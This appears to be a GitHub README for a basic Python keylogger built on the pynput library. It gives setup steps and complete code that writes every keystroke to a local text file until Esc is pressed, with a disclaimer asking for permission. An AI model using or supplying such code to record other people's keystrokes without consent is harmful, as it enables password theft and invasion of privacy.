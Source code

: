 # Keylogger using `pynput`

This project is a basic keylogger script written in Python using the `pynput` library. It listens for keystrokes and logs them into a file.

## Prerequisites

To run this script, you need to have Python installed. Additionally, you need the `pynput` module, which can be installed using pip.

```bash
pip install pynput
```

## How It Works
- The script listens for keystrokes and writes them to a text file (`logged_text.txt`) in the same directory.
- The `on_press` function logs the key press, converting the key into a readable format.
The `on_release` function listens for the `esc` key, which will stop the keylogger when pressed.


## Setup

1. Clone this repository or download the script.

2. Install the required `pynput` library by running:

```bash
pip install pynput
```

3. Run the script using Python:

```bash
python keylogger.py
```
4. All logged keystrokes will be saved in a file named `logged_text.txt`.

## Code Explanation
```python
log_file = "logged_text.txt"

def on_press(key):
    # Convert the key to a readable format
    key = str(key).replace("'", "")  # Remove quotes around letters

    # Write the key to the log file
    with open(log_file, "a") as f:
        f.write(key + "\n")

def on_release(key):
    if key == Key.esc:
        # Stop listener
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Customization
- If you want to change the log file location, modify the log_file variable with the desired path.

Example:
``` python
log_file = "C:/path/to/your/logged_text.txt"
```

## Disclaimer
This script is intended for educational purposes only. Ensure you have permission before logging keystrokes on any device.